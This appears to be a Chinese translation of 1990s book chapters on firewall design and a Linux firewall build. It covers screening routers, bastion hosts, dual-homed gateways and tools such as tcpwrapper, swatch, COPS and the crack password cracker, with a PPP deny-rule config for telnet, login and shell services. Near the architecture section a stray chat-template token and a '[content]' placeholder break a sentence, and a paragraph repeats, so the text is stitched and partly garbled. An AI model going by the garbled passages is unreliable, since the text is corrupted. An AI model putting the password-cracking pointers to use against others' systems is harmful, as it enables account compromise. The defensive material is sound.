- 因安全漏洞而导致的关键信息丢失；以及
- 因安全漏洞而导致的数据被泄露。

成本考虑因素差异很大，从可能被泄露或丢失的信息价值到实施和维护防火墙所需的专业水平。每个组织在踏上防火墙之旅之前都必须自行评估这些问题。

### What Do You Need to Protect?

信息是计算机时代的生命线，各类型和规模的组织都使用计算机进行信息存储。需要强制执行的边界是“围栏”，它包围着组织的计算环境。然而，围栏必须允许具有合法服务需求的用户通过受控的门禁进入。组织网络连接到管理员无法控制的其他网络时，边界变得难以定义和管理。

远程办公和家庭办公进一步加剧了定义安全边界的难度。如果用户在酒店或家中工作，你必须将边界扩展到该远程位置。如果你忽视这一点，通过网络的这一扩展导致边界被突破的机会将显著增加。


在远程计算的情况下，安全边界可能由多个扩展部分组成。例如，用于建立链路的调制解调器可能是加密调制解调器，它们会在数据在线路上传输之前加密数据包信息（不过，这种技术成本昂贵）。远程计算机硬盘上的实际数据也可以被加密。然后如果计算机被盗，除非用户将解密密钥留在计算机上，否则数据将毫无意义。

## 建筑材料：防火墙架构

一旦您定义了安全边界，下一个问题就是防火墙是否以及如何构建来保护它。不同类型的防火墙适用于不同的情况：应根据问题或组织希望执行的<|message|>安全策略来选择防火墙类型。在本节中，我将[content]

在远程计算的情况下，安全边界可以由多个扩展部分组成。例如，用于建立链路的调制解调器可能是加密调制解调器，它们会在数据在线路上传输之前对数据包信息进行加密（不过，这种技术成本昂贵）。远程计算机硬盘上的实际数据也可以被加密。这样，如果计算机被盗，除非用户将解密密钥留在计算机上，否则数据将毫无意义。

## 建筑材料：防火墙架构

一旦您定义了安全边界，下一个问题就是防火墙是否以及如何构建来保护它。不同类型的防火墙适用于不同的情况：应根据问题或组织希望执行的 security 策略来匹配防火墙类型。在本节中，我将考察主要的防火墙类型，解释它们是什么、如何工作以及已知的陷阱。我不会给出建议，因为在一种情况下有效的方法在另一种情况下可能无效。

## 门与节流

网络中的门就像围栏上的门一样：它允许数据在互联网和私有网络之间通过。节流则相反：它通常会阻止互联网到私有网络的所有数据包，除非它们的目标是门，并且会阻止私有网络到互联网的所有数据包，除非它们的目标是门。节流就像游乐园排队时的围栏：通往游乐设施只有一个入口，任何试图绕过队伍的企图都会被围栏阻挡。

门和节流可以存在于单独的计算机上，也可以存在于同一台计算机上。可以有多个门（例如，每个受支持的协议一个）或只有一个门。多个门提供了少量额外的安全性，但这会被额外的复杂性和管理成本所抵消。

门和节流被构建到许多不同的防火墙中。对于真正有效的防火墙，两者都必须存在。

## 空气隔离

空气隔离可能是可以设计的最佳防火墙，并且被许多安全和执法机构使用。在空气隔离的实现中，任何连接到互联网的计算机都不能连接到组织内的任何其他计算机或网络。虽然这听起来可能很偏执，但这意味着入侵和病毒只能影响连接到互联网的系统。由于这些机器未连接到组织内的任何其他主机，攻击者无法进一步推进。

空气隔离在将有用信息传递给组织用户方面造成了问题。该问题可以通过两种方法之一解决：手工或磁盘。第一种方法，手工方法，涉及打印相关信息，然后在连接到网络的机器上重新输入。好处是“密封”非常紧密：没有空气或随空气传播的病毒可以进入内部网络。第二种方法涉及将信息保存到磁盘，将其复制回联网系统，然后从该系统分发信息。

虽然这些方法提供了非常严格的安全性，但如果没有非常具体的重度安全需求，它们也会让组织中的用户感到沮丧和疏远。用户希望能够与互联网上的同事通信，而必须重新输入所有信息才能发送出去的前景是他们不会欢迎的。

## 筛选路由器

筛选路由器是大多数防火墙的基本组件。它可以是商用路由器，也可以是具有某种数据包过滤功能的主机型路由器。许多筛选路由器能够在网络之间、特定主机之间或 IP 端口级别上阻止流量。筛选路由器位于互联网和私有网络之间（图 11.1）。

过滤器用于监控数据包并决定哪些数据包可以被允许通过路由器。过滤器可以允许或拒绝入站和出站数据包。因此，系统管理员不仅可以拒绝来自特定外部主机的包，还可以防止内部机器连接到特定的外部系统。

过滤器还可以允许或拒绝连接到特定的 IP 服务端口。因此，您可以阻止 telnet 或 rlogin 服务，同时允许连接到匿名 ftp 服务器的 FTP 连接。设置数据包过滤可能令人沮丧甚至危险。开发有效的包过滤配置需要对 TCP 和 UDP 服务端口有深入的了解。如果表被意外错误配置，数据包过滤实现实际上可能会使破坏者更容易获得访问权限。

Morningstar Technologies 已将其数据包过滤功能构建到其 PPP 实现中（图 11.2）。这些功能允许系统管理员允许或拒绝某些类型的流量。为了防止或限制流量，您必须能够预见到将通过路由器传入的内容。不管机制如何，许多防火墙只不过是在私有网络和互联网之间设置一个筛选路由器。陷阱在于，这使网络极易受到攻击。由于互联网可以直接与私有网络通信，攻击发生时的暴露面等于网络中的主机数量。此外，除非每个主机都在定期接受攻击检查，否则发现攻击的可能性很低。


## 图 11.1 筛选路由器位于外部网络（互联网）和内部网络（Macintosh）之间。



## 图 11.2 一个 PPP 过滤器配置示例说明了了解路由器上将出现哪些内容的必要性。

```
$ cat Filter
#
#/etc/ppp/filter - PPP configuration file binding packet type to actions.
#

internet system:
    bringup intp 13/icmp 15/icmp 111/icmp !who !route !ntp
    pass nntp/137.39.1.2 !nntp
    !telnet/syn/recv
    ftp/syn/recv !login/syn/recv !shell/syn/recv !who
    !sunrpc !chargen !ftp !supdup/syn/recv !exec !syslog
    !route 16000/tcp/syn/send
    keepup !send intp 13/icmp 15/icmp 111/icmp !who !route
    log
    rejected

default bringup intp 13/icmp 15/icmp 111/icmp !who !route
    keepup !send intp 13/icmp 15/icmp 111/icmp !who !route
$
```

更糟糕的是，大多数商业路由器没有日志记录功能，这使得几乎不可能检测到防火墙的问题。筛选路由器绝非最安全的解决方案，但它们却是最流行的解决方案之一，因为它们为内部用户提供了几乎不受限制的互联网访问权限。如果私有网络中的主机上存有商业机密或敏感信息，筛选路由器将无法提供所需的安全级别。

## 堡垒主机

堡垒是防御性的据点。电子堡垒是网络安全中的坚强据点。通常，堡垒主机具有高度的安全性，会定期接受系统和安全审计，并且可能装有修改过的软件。堡垒主机通常位于与筛选路由器类似的位置（图 11.3）。

堡垒主机为每个网络提供一种配置，并允许每个网络的流量通过。由于其暴露性，堡垒主机经常成为破坏者攻击的目标。尽管如此，堡垒主机仍经常用于其他防火墙配置中，以提供所需的保护。

## 双宿主网关

双宿主网关是一种无需筛选路由器即可实现的防火墙；它可能是提供防火墙的最常用方法。双宿主网关基本上由一个不允许在互联网和私有网络之间进行 IP 转发的堡垒主机系统组成（图 11.4）。



在双宿主网关下，访问内部网络的唯一方式是与堡垒主机协商连接，然后与内部主机发起连接。另一种看待这个问题的方式是，内部网络上的主机可以与网关通信，互联网上的主机也可以，但两个网络之间的直接流量被阻断。从互联网来看，双宿主网关就像私有网络中的所有机器；从私有网络来看，它又像互联网中的所有机器。双宿主网关实际上充当服务网关，为电子邮件和其他服务提供支持：从定义上讲，它就是一台堡垒主机。

这是一种流行的防火墙配置，因为它相当容易设置，并且提供了互联网与私有网络之间的完全阻断。用户友好程度取决于系统管理员如何设置网络之间的访问。像 SMTP 这样的服务必须将邮件投递到网关，然后由网关将消息转发到目标机器。其他服务，如 telnet 和 rlogin，必须在网关上配置用户登录的账户，或者提供应用层中继将数据包重定向到相应的主机。

## 图 11.4 双宿主网关本质上是一台堡垒主机，不允许外部和内部网络之间进行 IP 转发。



## 图 11.5 当用户以用户名 telnet 登录网关时执行的示例登录配置文件。

```
:
# @( #) profile 23.3 91/10/24
#
trap '' 1 2 3 15

PATH=/bin:/usr/bin
#
# This code was added to provide a generic interface to allow anyone
# access to this machine without having to do the nasty things of
# automounts and # killing this machine - whose purpose is a gateway
# only anyhow.
#
# trap any user generated signals - force a logout if they occur
#
trap 'echo "SIGNAL REQUEST CAUGHT\nLogin Session ABORTED!";exit 0' 1 2 3 15
# send out a prompt
#
echo "
Welcome to the Network Access Gate
Connected at : `date`
Connected to : `hostname`
"
#
# set _NAME to nothing, and loop until weget a value this is the name of
# the user which we will use to establish an rlogin session
#
_NAME=
while [ ! $_NAME ]
do
    echo "Please enter your REAL login name : \c"
    read _NAME
done
```


图 11.6 中的示例输出说明了如何在双宿主网关上配置 telnet 或更恰当地说是 rlogin 服务。这种方案的主要优点是网关上没有用户登录账号。另一个优点是，在遭受攻击时进行损害控制会容易得多，因为如果除允许在网关上登录的用户之外的其他用户登录，登录就会成为一个值得注意的安全事件。

事实上，图 11.5 中显示的脚本可以被视为一个代理，因为它接受数据包并将其转发给接收方机器。大多数防火墙软件都提供代理代理，允许流量在防火墙的任一方向通过，只要发起流量的用户提供一定程度的身份认证。

另一个好处是，由于大多数双宿主网关将在计算机系统上运行，操作系统可以被调整以提供系统和事件日志。此类日志使得在入侵后更容易检测和追踪破坏者和安全漏洞，尽管它们可能无法帮助管理员确定哪些其他主机是从网关被入侵的。

## 图 11.6 由图 11.5 中显示的登录配置文件生成的示例输出；该输出说明了如何在双宿主网关上配置 telnet 或 rlogin 服务。

```
Welcome to the Network Access Gate
Connected at : Thu Nov 03 14:10:13 EST 1994
Connected to : gateway-anywhere.CA

Please enter your REAL login name : chare
Please enter the name of the machine you want to work on : oreo
Your session to oreo will now be started.
 running : rlogin oreo -8 -l chare
Password:
Last successful login for chare: Sat Oct 29 15:44:57 EDT 1994 on ttyP0
Last unsuccessful login for chare: Thu Oct 27 13:25:12 EDT 1994 on ttyP0
oreo

you have mail
TERM = (vt220)
Terminal type is vt220
 Configuring NNTP Server
erase = ^? stop = ^C
% $
```

双宿主网关并非防破坏。成功获得对双宿主网关访问权限的攻击者就相当于在您的私有网络上获得了本地网络访问权限。此时，所有标准的安全漏洞都变得可用。NFS 挂载文件系统上的错误配置或不当权限、.rhosts 文件、rdist 等自动软件分发系统、网络备份程序和其他管理 shell 脚本都会成为帮助攻击者在您的网关上建立立足点的工具。一旦该立足点建立起来，您的网络中的所有系统被攻陷也只是时间问题。

对于双宿主网关，如果防火墙被破坏，攻击者可能能够更改路由并暴露整个网络。由于大多数基于 UNIX 的双宿主网关通过修改内核参数 IPFORWARDING 来禁用 TCP/IP 转发，攻击者可能只想击败网关并更改此参数。如果能够获得网关上的 root 权限，那么这无疑是攻击的首选。一旦新内核被链接，入侵者可以在夜间强制重新启动并在无需先访问网关的情况下获得对您网络的访问权限。

## 筛选主机网关

筛选主机网关与双宿主网关类似，但被认为非常安全，同时仍相对容易实现。虽然双宿主网关由一台机器组成，但筛选主机网关（图 11.7）更为

图 11.7 筛选主机网关与双宿主网关类似，但建立起来更复杂，需要额外的设备。


该策略涉及使用应用级网关或在筛选子网中使用服务器。例如，如果组织希望为客户或普通互联网用户提供其他服务——例如匿名 ftp、gopher 或万维网——则可以为此目的在筛选子网中添加一台或多台机器（图 11.9）。

要入侵筛选子网以便攻破堡垒主机，攻击者必须重新配置三个网络的路由：互联网、筛选子网和私有网络。所有这些都必须在不触发任何警报、也不断开连接或被锁定在网络之外的情况下完成。如果筛选路由器已被配置为不接受任何网络连接或仅接受来自特定主机的连接，攻击者将被迫入侵堡垒主机，攻入私有网络上的机器，然后通过筛选路由器。

筛选子网还有其他优点。如果组织没有申请注册的 IP 地址，而是选择了自己的地址，无论是为了简单起见还是因为需要私有 TCP/IP 网络，筛选子网就成为访问互联网的最简单方式。由于私有网络对互联网完全不可见，系统管理员可以轻松地逐步重新分配内部机器的 IP 地址。

## 图 11.8 一个示例筛选子网，其中包含一个堡垒主机，该主机配置为支持交互式终端会话或应用级网关。


## 应用级或代理网关

网络社区中的许多软件都依赖于存储转发方法（例如 UUCP、电子邮件和 USENET 新闻）。应用程序收集信息，检查它，然后将其转发到远程目标。应用级网关是在用户级别而不是协议级别运行的特定服务的转发器或反射器。当这些服务在防火墙上运行时，它们成为整个私有网络安全的重要元素。

应用级或代理网关背后的理论是限制用户与一台机器的交互，而该机器本身并不提供用户正在访问的服务。代理主机提供对用户的额外身份验证，并保留审计跟踪以改进日志记录并允许网络管理员查看各种服务的用户正在做什么。外部用户永远看不到内部网络，因此无法攻击它。

这种方法的优点是，结合其他任何方法，对于您想要允许的每种服务类型，您都必须添加一个网关。例如，如果您想允许 telnet 服务，则需要安装 telnet 代理网关；对于 ftp 也是如此，等等。在这种情况下，如果代理服务不存在，则应用程序将被禁止，相应的服务访问将被拒绝。

### 图 11.9 一个示例屏蔽子网，添加了机器以支持 gopher、ftp 和万维网服务。



缺点是这些代理网关服务的发展并不简单，可能成为严重的停滞点。然而，许多提供防火墙的软件供应商可以提供应用级和代理网关服务。

## 混合网关

混合网关属于其他已提及类别之外的类别。一个例子是连接到互联网的串行连接，终端服务器位于私有网络侧。访问内部网络越困难，攻击者花费必要时间入侵的可能性就越小。混合网关允许引入一些相当深奥的想法，例如在一个协议上隧道传输另一个协议，或使用定制设计的软件来监控和检查已建立的连接。一个例子是防火墙由混合网关与堡垒主机组合而成的站点。

混合网关有不同的形状和大小，往往在一定程度上特定于组织；因此，不可能准确描述这样的网关会是什么样子。混合网关的明显优势在于，如果安全方法是非标准的，那么攻击者就更难弄清楚它，更有可能被发现。

这里的权衡是安全通过模糊性与经过充分记录和彻底理解的安全配置的好处之间的权衡。方案越深奥，管理员就越难记住它是如何工作的以及各个部分如何组合在一起。当管理员被一个未参与设计模糊网关过程的人取代时，危险会增加。最终，采用一种易于理解、记录和控制的安全方法可能更好。

由于混合网关本质上是折衷的，因此不可能对其遭受攻击的脆弱性或运行这种类型防火墙所涉及的风险进行概括。一个明显的必要条件是组织必须拥有内部资源来设计、构建和维护系统，而无需依赖外部资源。随着互联网的持续扩展，开发混合网关的方法可能会变得更加为人所知，并为管理员提供更多安全选项。

## 防火墙工具

大量工具和众多供应商提供软件和安全产品和服务。尽管防火墙相对较新，但它们正迅速成为网络安全业务的主要部分。我建议您在信任其保护网络之前非常仔细地检查公开可用的代码。这种谨慎并非意味着代码本身可能有问题，而是为了确保您认为自己得到的东西实际上就是您想要的。侧边栏“公开可用工具”列出了一些流行的工具并解释了如何获取它们。

## 结论

如果您正在考虑是否使用防火墙，请确保回答以下问题。

- 我们要保护自己免受谁的侵害？
- 我们试图保护什么？
- 我们试图保护的信息有多有价值？
- 互联网访问对我们的用户有多重要？
- 从互联网访问我们的网络有多重要？

一旦您解决了这些问题，问题就变成了选择最能满足您组织、其用户和客户需求的防火墙方法。

## 参考

Hare, Chris and Karanjit Siyan. Internet Firewalls and Network Security, 2nd ed. Indianapolis: New Riders Publishing. 1996.


## 公开可用的工具

公开可用的工具数量众多，而愿意花时间调查其中每一个的网络管理员是明智的。下面列出了其中一些较为流行的工具。

正如公开可用软件一贯的情况，软件的作者对其有用性不做任何声明（我也不做）。作为系统管理员，你有责任验证你为系统选择的软件的有用性和相关风险。

### tcpwrapper

这可能是为大多数标准服务添加日志记录和过滤的最为人所知的工具之一。tcpwrapper 程序仅支持通过 inetd 调用的服务，而 portmapper 用于通过标准 portmapper 调用的 RPC 服务。该工具由荷兰埃因霍温大学的一位顾问编写，用于帮助确定针对该大学的一些破解活动的来源。构成 TCPwrapper 工具包的程序集合可通过匿名 ftp 在 FTP.MIN.TUE.NL 上的 /pub/security 目录中找到。

使用此软件包，你可以监控和过滤对 SYSTAT、FINGER、FTP、TELNET、RLOGIN、RSH、EXEC、TFTP、TALK 以及其他网络服务的传入请求。它同时支持 4.3 BSD 风格的套接字和 System V-4 风格的 TLI。

该软件包提供了微小的守护进程包装程序，可以在不更改现有软件或现有配置文件的情况下安装。包装程序报告远程主机名和所请求服务的名称。包装程序不会与远程客户端进程交换信息，并且对客户端和服务器应用程序之间的实际通信不产生任何开销。

可选功能包括：访问控制，用于限制可以连接到你的网络守护进程的系统；使用 RFC 931 协议进行远程用户名查找；防止主机冒充他人主机名的额外保护；防止主机冒充他人主机地址的额外保护。

该程序的早期版本在 Ultrix 2.2、SunOS 3.4 和 ISC 2.2 上进行了测试。后期版本已安装在多种平台上，包括 SunOS 4.x 和 5.x、Ultrix 3.x 和 4.x、DEC OSF/1 T1.2-2、HP-UX 8.x、AIX 3.1.5 至 3.2、Apollo SR10.3.5、Sony、NeXT、SCO UNIX、DG/UX、Cray、Dynix，以及大量其他系统。

要求是网络守护进程必须由 inetd 等超级服务器生成；具有 4.3 BSD 风格的套接字编程接口，或 System V-4 风格的 TLI 编程接口；或两者兼有；并且提供 syslog(3) 库和 syslogd(8) 守护进程。只要系统满足这些要求，包装程序应无需修改即可运行。已为系统软件中的几种常见错误实现了变通方法。

### The swatch Logfile Monitor

swatch 是一个用 perl 编写的工具，可让你将操作与日志文件条目关联起来。当找到日志文件条目时，管理员可以安排执行命令，例如 mail、finger 等。例如，swatch 可用于读取系统 syslog 文件的内容，仅过滤和报告感兴趣的信息。图 11.10 显示了一个用于限制 syslog 文件信息的示例配置文件。

### 图 11.10 用于限制 syslog 文件信息的 swatch 示例文件。

```
# ignore sendmail messages
#
/sendmail/    ignore
/popper/      ignore
/link down/   echo=bold
# No space:    bell=*
#
# netblazer access
/blazer/&/start login/  echo
/blazer/&/on line/      echo
/blazer/&/bad logins/   echo=bold
#
/net/&/connected/       ignore
/net/&/mrnrd/           ignore
/news1/&/offered/       ignore
/news1/&/xmt/           ignore
/news1/&/Connection timed out/ echo=bold
#
```

### 图 11.11 使用图 11.10 的配置文件检查 syslog 文件时 swatch 程序的示例输出。

```
# ./swatch -c swatchrc.test
Dec 29 12:52:31 news1 lnn d: swiss.ans.net:17 checkpoint seconds 790 accepted 800 refused 9 rejected 0
Dec 29 12:53:47 news1 lnn d: sentinel.synapse.net:30:proc:28749 can't write
Operation would block
Dec 29 12:53:47 news1 last message repeated 2 times
Dec 29 12:53:47 news1 lnn d: sentinel.synapse.net:30:proc:28749 blocked sleeping 120
Dec 29 12:53:47 news1 last message repeated 2 times
Caught a SIGQUIT -- shutting down
#
```

## 公开可用的工具 — 继续

图 11.10 所示的配置文件由与 perl 相同的风格的模式和要执行的操作组成。在这些示例中，大多数模式为 echo 或 ignore。echo 操作会打印行：ignore 操作不言自明。当 swatch 程序使用此配置文件检查 syslog 文件时，输出与图 11.11 所示类似。

使用 swatch 的配置可能性非常广泛，它是筛选 syslog 文件内容的良好工具。swatch 程序可在 sierra.stanford.edu 的 /pub/sources 中找到。




## 公开可用的工具——续

### tcpdump

tcpdump 是互联网上可用的用于监控网络流量的最佳工具。tcpdump 会打印出网络接口上符合布尔表达式的数据包头。要构建 tcpdump，你还需要同一个 FTP 站点上的 libpcap 库。tcpdump 命令的示例输出如图 11.12 所示。tcpdump 的源代码可以在 FTP.FE.EB.LGOV 上的 /tcpdump-3.0 目录中找到（截至 1994 年 11 月 5 日）。

### TAMU

TAMU（德克萨斯 A&M 大学）系统是一组工具的集合，可用于构建防火墙或检测攻击特征。该集合包括一组脚本，可用于评估网络中机器的安全性。这些工具包括一个高级互联网过滤网桥、一个功能强大且易于使用的保护单个主机的程序，以及一个网络监控器。需要提醒的是，F.T.A.M. 上的匿名 FTP 服务器明确限制了匿名 FTP 用户的数量。目录 /pub/security/TAMU 包含这些脚本。

### COPS

COPS 是另一个流行的系统审计软件包，它运行一组程序，每个程序检查 UNIX 系统上安全性的不同方面。如果确实存在潜在的安全漏洞，结果会通过邮件发送或保存到报告文件中。COPS 提供了强大的功能；图 11.13 展示了 COPS 工具的一份示例报告。COPS 扫描程序可以从 FTP.CERT.ORG 的 /pub/tools/cops 目录获取。

### crack

虽然我不愿宽容将密码破解程序用作系统管理工具的做法，但我也觉得，如果我们这些系统管理员不利用手头的工具来验证系统安全状态，那么其他人就会利用这些工具来破坏安全。真正的防火墙可以降低外部攻击的可能性，但并不能解决来自内部用户的潜在威胁问题。

crack 是最知名的密码破解程序之一。它可以定制为使用你自己的字典。crack 可以在 ftp.cert.org 的 /pub/tools/crack 目录中找到。在 black.ox.ac.uk 的 /ordlists 目录中可以找到一套不错的备选字典。

# 图 11.13 COPS 工具的一份示例报告。

```
ATTENTION:
Security Report for Fri Dec 30 09:17:37 EST 1994
From host somhost

*** root.chk ***
*** dev.chk ***
*** fs.able.chk ***
*** rc.chk ***
*** cron.chk ***
*** group.chk ***
*** home.chk ***
Warning! User ftp's home directory /var/usr/ftp is mode 0777!
Warning! User news's home directory /usr/news is mode 0777!
*** passwa.chk ***
*** user.chk ***
*** misc.chk ***
Warning! /usr/bin/uudecode creates setuid files!
*** ftp.chk ***
Warning! /etc/ftpusers should exist!
Warning! Password Problem: Guessed: hungry shell:
*** kuang ***
*** bug.chk ***
```

## 公开可用的工具——续

## 防火墙与安全邮件列表

关于防火墙以及一般安全话题，有许多邮件列表和论坛可供使用。有些通过电子邮件分发，有些则是 USENET 新闻系统的一部分。

有两个主要的防火墙邮件列表。一个由 greatcircle.com 托管，另一个由 tis.com 托管。要订阅 Great Circle 邮件列表，请向 majordomo@greatcircle.com 发送一封邮件，邮件正文内容为：

```
subscribe firewalls your-email-address
```

你可以订阅 tis.com 防火墙列表，该列表主要关注 TIS 防火墙工具包的使用。订阅方法是向 fwall-user-request@tis.com 发送一封邮件，邮件正文内容为：

```
subscribe fwall-users your-email-address
```

在这两种情况下，邮件都会在一两天内开始发送到你的邮箱。

还有其他论坛可用于一般安全话题的讨论。这些论坛通常是 USENET 新闻系统的一部分，包括新闻组 comp.security.announce、comp.security.misc、comp.security.unix 和 alt.security。


## 使用 Linux 构建防火墙

Arthur Donkers

获取 Internet 访问很容易。 有大量的 Internet 服务提供商（ISP）可供选择，几乎总是只需本地电话即可。 获取安全的 Internet 访问则完全不同。 您希望内部用户能够方便地访问 Internet 上的信息，但您通常不希望外部人员能够访问、更不用说轻松访问您的内部信息。 实现这种选择性连接的最佳方式是使用防火墙将内部网络与 Internet 分开。 （请参阅侧边栏“什么是防火墙？” 获取简要说明。）

本章向您展示如何安装和配置一个基于 Linux 的防火墙，该防火墙通过按需拨号 PPP 链路连接到 Internet。

我的防火墙实现使用标准 SMC 以太网卡作为防火墙主机。 与 Internet 的连接通过高速调制解调器通过拨号 PPP 链路连接到我们的服务提供商。 （图 12.1 — 请参阅侧边栏“专用线路”了解替代的 Internet 连接。）

### 图 12.1 一个示例防火墙实现。



### 什么是防火墙？

防火墙是位于内部网络（有时称为内联网）和 Internet 之间的专用系统。 防火墙系统会仔细检查所有提供的网络流量，并丢弃或拒绝任何会违反内部网络完整性和安全性的数据包。

防火墙对内部网络上的用户是不可见的。 内部工作站只需在需要访问 Internet 时联系防火墙即可。 用户无需使用特殊程序或联系防火墙上运行的特殊守护进程。 防火墙的保护性数据包过滤是完全透明的。

### 专用线路

我的防火墙通过拨号 PPP 连接连接到 Internet。 如果您的 Internet 连接通过其他接口运行，例如 56k 或 ISDN 分组连接，您可以使用以下替代方案。 使用专用路由器，一侧连接到您的 Internet 连接，另一侧连接到“普通”以太网。 然后，为您的防火墙配备第二块网卡。 最后，使用单独的电缆将防火墙连接到路由器。 防火墙现在将在两个以太网之间传输数据包。 这种 Internet 连接替代方案如图 12.1 所示。 请注意，对于此设置，使用两个物理上独立的网络段非常重要。

### 总体情况

构建基于 Linux 的防火墙的主要步骤是：

- 加载基本安装，可能来自 CD-ROM；
- 重新配置或升级内核以包含防火墙功能；
- 如有必要，添加 PPP 或 SLIP 支持；
- 添加 IP 伪装支持； 添加 ip_fw 支持； 配置防火墙规则；
- 配置名称服务器； 以及
- 修改启动配置。

### 获取 Linux

Linux 一直在 Internet 上开发，并且仍然在 Internet 上开发。 因此，源代码也可在 Internet 上获得。 提供 Linux 源代码的两个主要 ftp 服务器是 tsx-11.mit.edu:/pub/linux 和 sunsite.unc.edu:/pub/Linux。

下载 Linux 发行版和所有支持软件包可能很繁琐。 我建议购买其中一种可用的 CD-ROM 发行版。 一个好的 CD-ROM 发行版将大大简化获取完整可用的 Linux 系统运行的任务。

最受欢迎的 Linux 发行版之一是 Slackware。 截至本文撰写时，最新的版本是 Slackware v3.0。 该版本为独立或联网的 Linux 系统提供了完整的设置。 我以 Slackware 版本为起点构建了我的防火墙。 尽管 Slackware 版本简化了安装过程，但您仍应准备好进行大量调整和微调。 标准发行版远非安全的防火墙设置。 Slackware 发行版通常与 Linux 书籍“捆绑”在一起。 Yggdrasil “即插即用”发行版也在许多大型书店有售。

如果您决定使用 CD-ROM 发行版，请检查您是否拥有受 Linux 支持的 CD-ROM 驱动器。 几乎所有您能想象到的驱动器的驱动程序都可用，但发行版提供的预编译内核通常仅支持最常见的 CD-ROM 驱动器。 如果您要方便地从 CD-ROM 安装，则需要能够使用其中一个预编译内核挂载 CD-ROM。 如果预编译内核不支持您的 CD-ROM，请不要惊慌。 您可能能够将必要的软件包复制到同一台机器上的 DOS 分区并从那里安装它。

还请注意，CD-ROM 刻录和内核开发之间存在相当大的滞后。 您不太可能在任何当前 CD-ROM 发行版上找到此处提到的 1.3.68 内核。 事实上，一些当前捆绑的 CD-ROM 仍在使用 1.0.x 或 1.1.x 内核。 购买前请仔细检查。 1.2.x 或更高版本的内核将更容易升级以用作防火墙。


我建议你使用基于 CD-ROM 的发行版进行初始安装。（请参阅侧边栏“获取 Linux”以了解有关 Linux 发行版的更多详细信息。请参阅侧边栏“免费防火墙？”以了解在防火墙构建中使用免费软件的利弊。）这些发行版通常包含安装脚本和说明，可大大简化安装过程。它们还包含你所需的所有驱动程序和大部分其他组件。将所有必要组件放在一个地方可节省大量时间。

通常，这些发行版附带针对常见配置的预编译内核。你使用其中一个内核启动，然后将其用作开发环境来为你的机器配置构建专属内核。

一旦你拥有一个运行正常且配置正确的基内核，就应配置 PPP，或你将运行的任何网络接口，并下载具有适当防火墙支持的内核源代码树。此时，你还应下载可能需要升级的任何其他软件包。具体来说，你需要 ipf、PPP、SLIP 和 IP 伪装的当前版本。（请参阅侧边栏“IP 伪装”以了解此功能的描述。）

## 免费防火墙？

一些专家说你不应在防火墙等关键任务角色中使用公共领域或免费软件。在大多数情况下，我同意他们的观点；然而，Linux 是一个例外。首先，通过互联网的支持不仅更好，而且速度更快、更好、更准确，优于商业资助的支持。如果你投入一些时间，你很快就能非常熟练地自行支持 Linux。其次，Linux 支持庞大的硬件外设集合，并且每天都有新硬件被添加。很有可能 Linux 会支持你用于防火墙的硬件。第三，Linux 拥有非常庞大的用户群。我看到的估计说全球有超过 1000 万 Linux 用户。拥有这么多“软件测试员”，漏洞会被迅速识别并纠正。

而且，与其等待供应商发送补丁，你可以立即通过互联网获取。Linux 也有非常好的网络支持。在后来的 1.3.x 版本中，网络代码既更快也更可靠。这种改进在防火墙和伪装代码中尤其明显。另一个好处是 Linux 代码以源代码形式提供，并且是免费的。因此，代码可供检查，如果出现特殊需求，你也可以审计自己的改进。

即使 Linux 没有如此广泛使用和如此好的支持，我仍然倾向于自己构建防火墙而不是购买预制防火墙。“自制”解决方案的一个优势是你可以完全根据公司的需求对其进行定制。没有两张网络是相同的，因此也没有两个防火墙是相同的。预制防火墙并不总是像基于通用内核的防火墙那样灵活。此外，自行构建防火墙会迫使你熟悉关键组件。你知道陷阱在哪里，也知道如何规避它们。这可能听起来不重要，但防火墙不如预期安全的主要原因在于人为失误。如果你不熟悉所涉及的软件，你很容易将其配置错误，从而使后门大开。

一旦你拥有了所有防火墙组件的源代码，你需要再构建一个内核，这次将其配置为启用 IP 转发和其他防火墙相关功能。

在防火墙配置的内核运行后，最后的步骤是配置防火墙数据包过滤规则，配置合适的名称服务器，并修改启动序列，以便仅运行最少的守护进程。

## 升级内核源代码

对于此防火墙，我选择了当时可用的最新内核——v1.3.68。到你阅读本文时，毫无疑问 Linux 会有更新的版本。

### IP 伪装

Linux 内核中的一个功能是 IP 伪装，它使你能够将本地系统“隐藏”在单个 IP 地址之后。其工作原理最好通过一个示例来解释（图 12.2）。

名为“firewall”的机器将使用 IP 地址 194.09.13.150 连接到互联网。这是 ISP 分配给我的地址。这些地址是单节点地址，这意味着它们不能用于路由流量。因此，防火墙无法运行路由以向主机 host1 或 host2 公告路由。

因此，如果我想从 host1 或 host2 连接到互联网，我需要做额外的工作。通常，我会在防火墙上安装应用程序代理。然后本地主机将连接到这些代理，代理再连接到互联网。

